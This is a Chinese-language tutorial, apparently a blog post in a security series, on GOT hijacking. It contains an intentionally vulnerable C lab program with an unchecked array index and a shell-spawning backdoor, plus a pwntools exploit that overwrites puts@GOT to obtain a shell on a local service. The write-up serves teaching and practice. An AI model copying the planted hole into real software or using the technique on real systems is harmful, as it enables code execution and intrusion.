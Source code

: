 ```yaml
---
title: "Day10－GOT Hijacking"
date: 2024-09-10
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

前一天我們介紹了 GOT 和 Lazy Binding 的機制，今天要介紹的是如何利用這些機制進行攻擊，也就是 GOT Hijacking。

## 簡介

由於 Lazy Binding 的機制，GOT 是可寫的。因此，如果能夠覆蓋 GOT 的值，那麼下次呼叫該函數時，就可以控制即將執行的函數指針。這種情況通常出現在陣列未驗證輸入範圍、記憶體越界（即所謂的 out of bounds，oob）或是透過格式化字串（format string）將特定值寫入 GOT 的情況。

## Lab

```c
#include<stdio.h>
#include<stdlib.h>

int backdoor(const char *arg){
    system("/bin/sh");
}

long long value[4];

int main(){
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    long long index;
    for(int i = 0; i < 4; i++){
        puts("Enter a index to store a value: ");
        scanf("%lld", &index);
        puts("Enter a value: ");
        scanf("%lld", &value[index]);
    }
    if(value[0] != 123){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[1] != 456){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[2] != 789){
        puts("CHECK FAILED\n");
        exit(0);
    }
    if(value[3] != 101112){
        puts("CHECK FAILED\n");
        exit(0);
    }
    puts("CHECK PASSED\n");
    return 0;
}
```

使用以下指令進行編譯（注意，預設編譯會是 Partial RELRO）：

```bash
gcc src/got.c -o ./got/share/got -fno-stack-protector -no-pie
```

大家可以嘗試練習這道題目，或者繼續閱讀以下的解題步驟。

## writeup

首先，這道題目有一個 `backdoor()` 函數，該函數會直接打開一個 shell。此外，程式允許我們四次機會編輯陣列 `value` 中的值，並且可以自由選擇要修改哪個索引值。由於沒有驗證索引範圍，因此我們可以利用 oob（out of bounds）漏洞，再加上 GOT Hijacking，將某個函數指針覆蓋，使其執行 `backdoor` 函數。

這題相對簡單，因為可以使用 `objdump` 來 disassemble 程式，從中計算應該填入哪些位置。從 `main` 函數可以看到 `value` 陣列的位址是 0x404080。

![image](/images/iron2024/day10_image1.png)

接下來我們需要找出該填入的位置與 `value` 陣列位址之間的差異。在這裡，我們選擇覆蓋 `puts` 函數，因為在寫入值之後會呼叫 `puts` 函數。確認一下 `puts` 的 GOT 位址是 0x404000，依此就能判斷應該覆蓋哪個索引。

![image](/images/iron2024/day10_image2.png)

接著，我們要將 `backdoor` 函數的位址（0x401166）寫入。

![image](/images/iron2024/day10_image3.png)

現在所有資訊都已經掌握，可以開始編寫 exploit。

記得因為程式直接接收數字及數值，因此以字串的形式輸入即可。

完整 exploit：
```python
from pwn import *

# r = process('../got/share/got')
r = remote('127.0.0.1', 10002)

value = 0x404080
puts_got = 0x404000
backdoor = 0x401166

offset = (puts_got - value) // 8
r.sendlineafter(b'Enter a index to store a value: \n', str(offset).encode())
r.sendlineafter(b'Enter a value: \n', str(backdoor).encode())
r.interactive()
```

solved！！

![image](/images/iron2024/day10_image4.png)
